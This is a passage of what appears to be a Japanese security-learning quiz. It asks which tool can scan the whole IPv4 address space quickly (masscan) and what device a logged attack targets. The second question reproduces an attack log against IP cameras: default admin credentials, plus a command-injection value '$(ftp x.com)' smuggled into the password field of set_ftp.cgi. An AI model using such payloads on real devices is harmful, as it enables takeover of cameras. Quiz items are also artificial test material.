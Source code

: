 # 問題2
　/0アドレス空間をわずか6分でスキャンできると言われるツールはどれでしょう
## 選択肢
1 masscan
2 phpmyadmin
3 nmap
4 mysql
## ヒント
1 知らない単語を調べよう
2 ネットワークツールとして使うことができます
3 ZMAPというツールより高速だそうです
4 安易に使わないでください(これ以上のヒントはありません)
5

## 解答
1
## 解説
中身を学んでもらってnmapとの比較

# 問題3
こんなログがありました．これは何を攻撃するコードでしょう．(一部情報を伏せていますが必要ないので問題を解くのに影響はありません)
<CODE>
http://192.168.X.XXX/set_ftp.cgi?next_url=ftp.htm&loginuse=admin&loginpas=admin&svr=192.168.X.X&port=21&user=ftp&pwd=$(ftp x.com)ftp&dir=/&mode=PORT&upload_interval=0
http://192.168.X.XXX/ftptest.cgi?next_url=test_ftp.htm&loginuse=admin&loginpas=admin
</CODE>
## 選択肢
1 ドローン
2 IoT
3 中国製WEbカメラ 
4 phpが動くWebサーバ
## ヒント
1 ログを調べて見ましょう
2 これはWebサーバを攻撃するものではありませんね
3 ほかのものはどうでしょう(これ以上のヒントはありません)
 
## 解答
## 解説
https://pierrekim.github.io/blog/2017-03-08-camera-goahead-0day.html

